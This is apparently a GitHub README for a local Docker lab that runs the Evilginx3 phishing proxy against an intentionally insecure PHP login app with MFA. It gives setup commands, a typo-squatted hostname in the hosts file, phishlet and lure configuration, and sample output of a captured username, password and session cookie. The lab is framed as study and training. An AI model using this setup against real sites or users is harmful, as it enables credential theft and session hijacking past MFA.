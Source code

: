 # Evilginx LAB on Docker
![back](evil-dock.jpg)

## Disclaimer
As you can imagine, this lab was created solely and exclusively for the purposes outlined below, and absolutely not for any malicious activity. Of course, I disclaim any responsibility for the improper use of the material contained in this repository.
The containers must absolutely not be exposed to a public network.

Please note that the comments inside files are in italian.

## Why?
I created a local lab to test Evilginx without the need to purchase a domain or presumably a VPS. It is useful for the following use cases:
1. Study and practice
2. Phishlet development and testing
3. Demonstrations and training activities

## Lab architecture
The lab consists of two Linux Docker containers. One hosts a simple PHP application that implements an MFA login process. The application is completely insecure, so it is strongly recommended not to expose it to the Internet and not to use the code in real-world applications. The second container hosts the Evilginx3 server.
You can find the static parameters to access the web application in <b>/app/login-config.php</b>

## Objective
Our goal is to intercept the authentication tokens (cookies) needed to hijack the user's session. It's very straightforward.

## Build & run the containers
Clone this repo and enter the directory, then execute:
	
	sudo docker-compose up --build -d --force-recreate --remove-orphans
	Building apache-php
	[+] Building 1.1s (11/11) FINISHED
	...
	Building evilginx2
	[+] Building 1.1s (10/10) FINISHED   
	...
	Creating targetsite.local ... done
	Creating targetsile.local ... done

	
Verify the containers:

	sudo docker ps
	CONTAINER ID   IMAGE                          COMMAND                  CREATED          STATUS          PORTS               NAMES
	636fa17740bf   evilginx_lab-main_apache-php   "apachectl -D FOREGR…"   41 minutes ago   Up 41 minutes   80/tcp, 443/tcp     targetsite.local
	2c595290c650   evilginx_lab-main_evilginx2    "/bin/bash -l"           41 minutes ago   Up 41 minutes   443/tcp, 8080/tcp   targetsile.local


## Mimic DNS
Modify hosts file in your host machine. Add the following lines:

	172.18.0.20 	targetsite.local login.targetsite.local
	172.18.0.10	targetsile.local login.targetsile.local
	
Visit the Legitimate site at: https://login.targetsite.local, with a bit of typo-squatting, the evil site will be https://login.targetsile.local


## Start evilnginx
Enter Evilginix container shell

	sudo docker exec -it /targetsile.local /bin/bash
Then start Evilginix in developer mode, in this mode, instead of trying to obtain LetsEncrypt SSL/TLS certificates, it will automatically generate self-signed certificates.
```bash  

root@e279e8098a4d:/evilginx2# ./evilginx2 -debug -developer

                                         
                                             ___________      __ __           __               
                                             \_   _____/__  _|__|  |    ____ |__| ____ ___  ___
                                              |    __)_\  \/ /  |  |   / __ \|  |/    \\  \/  /
                                              |        \\   /|  |  |__/ /_/  >  |   |  \>    < 
                                             /_______  / \_/ |__|____/\___  /|__|___|  /__/\_ \
                                                     \/              /_____/         \/      \/
                                         
                                                        - --  Community Edition  -- -
                                         
                                               by Kuba Gretzky (@mrgretzky)     version 3.3.0
                                         

[15:32:34] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)
[15:32:34] [inf] debug output enabled
[15:32:34] [inf] loading phishlets from: /evilginx2/phishlets
[15:32:34] [inf] loading configuration from: /root/.evilginx
[15:32:34] [inf] blacklist mode set to: unauth
[15:32:34] [inf] unauthorized request redirection URL set to: https://www.youtube.com/watch?v=dQw4w9WgXcQ
[15:32:34] [inf] https port set to: 443
[15:32:34] [inf] dns port set to: 53
[15:32:34] [inf] autocert is now enabled
[15:32:34] [inf] blacklist: loaded 0 ip addresses and 0 ip masks
[15:32:34] [war] server domain not set! type: config domain <domain>
[15:32:34] [war] server external ip not set! type: config ipv4 external <external_ipv4_address>

+-------------------+-----------+-------------+-----------+-------------+
|     phishlet      |  status   | visibility  | hostname  | unauth_url  |
+-------------------+-----------+-------------+-----------+-------------+
| example           | disabled  | visible     |           |             |
| targetsite-local  | disabled  | visible     |           |             |
+-------------------+-----------+-------------+-----------+-------------+

:  

```
Note that I used the debug option too, since, I don't know why at the moment, the phishlet refues to capture the otp credential. Using the debug options permit to get the whole requests.
                                        
## Config Evilngnix container
```bash  
: config domain targetsile.local
: config ipv4 172.18.0.10
: phishlets hostname targetsite-local targetsile.local

: phishlets get-hosts targetsite-local 
	172.18.0.10 login.targetsile.local
	172.18.0.10 targetsile.local
	
: phishlets enable  targetsite-local 
: lures create targetsite-local 


+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
| id  |     phishlet      | hostname  |   path     | redirector  | redirect_url  | paused  |  og   |                                                                                                                                        
+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+                                                                                                                                        
| 0   | targetsite-local  |           | /nBfYHrTO  |             |               |         | ----  |                                                                                                                                        
+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+                                                                                

: lures get-url 0

	https://login.targetsile.local/nBfYHrTO
```
	
## Visit the malicious URL


## Capturing the session token
```bash 
: 2024/12/04 21:32:08 [001] WARN: Cannot handshake client login.targetsite.local remote error: tls: unknown certificate authority
[21:32:33] [imp] [0] [targetsite-local] new visitor has arrived: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0 (172.18.0.1)
[21:32:33] [inf] [0] [targetsite-local] landing URL: https://login.targetsile.local/AhsTYOfa
[21:33:14] [+++] [0] Username: [admin]
[21:33:14] [+++] [0] Password: [test01]
[21:33:53] [+++] [0] Username: [admin]
[21:33:53] [+++] [0] Password: [Pwd Sicur@ 123]
[21:33:54] [+++] [0] detected authorization URL - tokens intercepted: /admin.php
: sessions 

+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+
| id  |     phishlet      | username  |    password     |  tokens   | remote ip   |       time        |
+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+
| 1   | targetsite-local  | admin     | Pwd Sicur@ 123  | captured  | 172.18.0.1  | 2024-12-04 21:33  |
+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+

: sessions 1

 id           : 1
 phishlet     : targetsite-local
 username     : admin
 password     : Pwd Sicur@ 123
 tokens       : captured
 landing url  : https://login.targetsile.local/AhsTYOfa
 user-agent   : Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 remote ip    : 172.18.0.1
 create time  : 2024-12-04 21:32
 update time  : 2024-12-04 21:33

[ cookies ]
[{"path":"/","domain":"login.targetsite.local","expirationDate":1764884081,"value":"jkncga8d8e6fk3igla22ugsfse--very-insecure-fixed-VALUE--DO-NOT-USE-IT-NEVER-IN-REAL-APPLICATION","name":"session_token","httpOnly":true,"hostOnly":true}]

```

## Useful Docker commands

### Stop and remove all the containers

	sudo docker stop $(docker ps -q) && sudo docker rm $(docker ps -a -q) && sudo docker image prune -a
	
### Access a shell's container

	sudo docker exec -it <container name> /bin/bash

### Check mounted volumes

	sudo docker inspect <container name> | grep Mounts -A 10
	

## Inspect logs

	sudo docker logs <container name>
	
### Show containers IP

	sudo docker ps -q | xargs -n 1 docker inspect -f '{{.Name}} - {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'
	
	/targetsite.local - 172.18.0.20
	/targetsile.local - 172.18.0.10

